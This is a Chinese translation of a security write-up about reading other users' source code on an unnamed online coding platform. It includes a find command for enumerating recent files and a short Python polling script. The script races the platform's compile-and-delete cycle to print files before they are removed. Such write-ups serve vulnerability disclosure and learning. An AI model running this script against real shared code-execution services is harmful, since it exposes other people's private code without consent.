


# 检索用户的源代码

> 原文：<https://infosecwriteups.com/retrieve-users-source-code-496994083047?source=collection_archive---------1----------------------->



马库斯·斯皮斯克在 [Unsplash](https://unsplash.com?utm_source=medium&utm_medium=referral) 上的照片

任何用户都可以执行服务器外壳命令并查看其他用户的源代码。

开发人员是 casper 的角色，所以我不会透露应用程序的名称。提示:也许它是最有名的。XX 是一个应用程序，主要由希望学习编程的人使用。它允许一个人用任何编程语言来写。编译和二进制执行是在服务器端完成的。你可以想象可执行的二进制文件可能是一个反向 shell，对吗？:).尽管这是真的，但代码是在云函数中执行的，长时间执行一个函数会使主机负担过重。

那么，谷歌云功能的有限环境是如何帮助我找到除了我自己的源代码以外的任何东西的呢？枚举是关键。

检查在过去 5 分钟内修改了哪些文件:

```
find / -type f -mmin -5 ! -path "/proc/*" ! -path "/sys/*" ! -path "/run/*" ! -path "/dev/*" ! -path "/var/lib/*" 2>/dev/null
```

尝试访问这些文件是不可能的，因为文件不存在:/

因此，假设文件被放在服务器上，被编译、执行，然后被删除。

那么，当文件不存在时，如何读取文件呢？它就在那里。至少有一会儿。这就是检索文件的方式:

```
#python 2.7.15
​
from os import walk
​
dr = {}
​
while True:
  for (dirpath, dirnames, filenames) in walk("/basedirectory"):
    for f in filenames:
      if dr.has_key(f) == False:
        dr[f] = True
        print dirpath, f
        try:
          print open(dirpath + "/" + f,"r").read()
        except:
          pass
```

当源代码被编译或二进制代码被执行时，读取其他用户的源代码。在程序完成之前，可以找到并检索其源代码:



执行程序的输出:读取其他用户的源代码

我也分析过其他编码应用程序，其中大多数都有访问控制和边界问题。

狩猎愉快！